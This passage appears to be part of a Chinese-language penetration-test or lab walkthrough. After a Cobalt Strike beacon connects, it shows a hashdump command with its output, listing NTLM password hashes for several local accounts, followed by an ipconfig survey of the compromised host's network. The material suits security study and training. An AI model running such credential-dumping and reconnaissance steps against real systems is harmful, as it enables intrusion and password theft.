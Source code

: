 于是上线：

<img src=".\图片\Snipaste_2023-05-15_18-41-39.png" alt="Snipaste_2023-05-15_18-41-39" style="zoom:80%;" />

## 后续执行命令

1、抓取 hash

```beacon
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82541 bytes
[+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:de935c6087ec367d3ef786915a4edcce:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
mysql:1002:aad3b435b51404eeaad3b435b51404ee:291376866817cf2ccfe198308e5f925b:::
www:1001:aad3b435b51404eeaad3b435b51404ee:894f353e870620b186a9a46ce56ac8f1:::
```

2、看 ip 网段，只有一个网段

```bash
beacon> shell ipconfig
[*] Tasked beacon to run: ipconfig
[+] host called home, sent: 39 bytes
[+] received output:

Windows IP 配置

以太网适配器 Ethernet0:

   连接特定的 DNS 后缀 . . . . . . . : 
   本地链接 IPv6 地址. . . . . . . . : fe80::3d9d:36c1:c1ec:2908%12
   IPv4 地址 . . . . . . . . . . . . : 192.168.0.102
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.0.1
```
